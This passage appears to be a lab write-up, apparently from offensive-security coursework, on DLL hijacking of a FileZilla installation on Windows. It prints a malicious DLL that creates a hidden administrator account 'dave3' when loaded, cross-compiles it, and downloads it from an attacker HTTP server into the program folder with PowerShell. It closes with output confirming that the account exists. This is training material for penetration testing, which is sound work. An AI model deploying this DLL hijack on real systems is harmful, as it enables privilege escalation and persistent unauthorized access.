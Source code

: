 ```C++
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
		
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
		
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Note that we're importing the header files `stdlib.h` and `windows.h` so we can make use of Windows specific data types and system function calls. We've added code to the `DLL_PROCESS_ATTACH` case which does the following:
- declares an int called `i`
- sets `i` equal to `net user dave3 password123! /add`
- sets `i` equal to `net localgroup administrators dave3 /add`

The code makes two system calls, one which uses the `net` command to create `dave3` with our custom password, and another which adds `dave3` to the local `Administrators` group.
###### Compiling & Transferring our DLL
If we've written this on our attacking box, then we need to *cross compile it* into a Windows 64-bit executable. We can use `mingw` to do that:
```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```
Once our DLL is compiled, we can transfer it to our target machine (or the VM first if we want to test it). If we're moving it to the victim machine *we want to make sure it's deposited in the correct folder* (the FileZilla installation directory). We can do that by using `iwr` (to fetch the file from our already running python HTTP server) and giving it the `-OutFile` flag:
```powershell
PS C:\Users\steve> iwr -uri http://192.168.48.3/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```
##### Execution
For our DLL to be executed, FileZilla needs to be started/ ran by someone. Note that *the DLL will inherit the privileges of the user who starts `filezilla.exe`*, so, if we start it as `steve` and he doesn't have high enough privilege to *create the new user `dave3`* then our malicious DLL won't work.

Fortunately, we don't have to start the application on our own. We can wait for another user to trigger it. Once that happens, we'll know our DLL successfully added `dave3` when its listed in the output of `net user`:
```powershell
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220
-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave3                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

```